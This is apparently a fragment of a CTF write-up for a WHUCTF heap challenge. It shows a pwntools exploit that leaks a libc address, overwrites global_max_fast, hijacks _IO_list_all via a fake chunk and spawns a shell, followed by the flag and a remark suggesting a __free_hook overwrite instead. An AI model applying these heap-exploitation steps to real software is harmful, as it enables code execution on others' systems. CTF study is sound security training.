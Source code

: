 ~~~python
leak=u64(r.recvline()[:-1].ljust(8,'\x00'))
success("leak:"+hex(leak))
lbase=leak-0x7ffff7dd1b78+0x7ffff7a0d000
global_max_fast=leak-0x7ffff7dd1b78+0x7ffff7dd37f8
_IO_list_all=leak-0x7ffff7dd1b78+0x7ffff7dd2520
one=lbase+0x4526a
success("lbase:"+hex(lbase))
success("maxfast:"+hex(global_max_fast))
success("io:"+hex(_IO_list_all))
#step 2:overwrite global_max_fast with big value
edit(p64(one)+p64(0)*3+p64(global_max_fast))
#step 3:free fake chunk and change _IO_list_all to fake chunk
delete(2)
#step 4:call exit and go to _IO_flush_all_lockp
r.recvuntil('exit\n')
r.sendline('4')
r.interactive()
~~~

> WHUCTF{Nice_Heap_Tricks!!!}

个人感觉不需要打IO_FILE，可以直接打`free_hook` ，然后在堆中填充shellcode即可
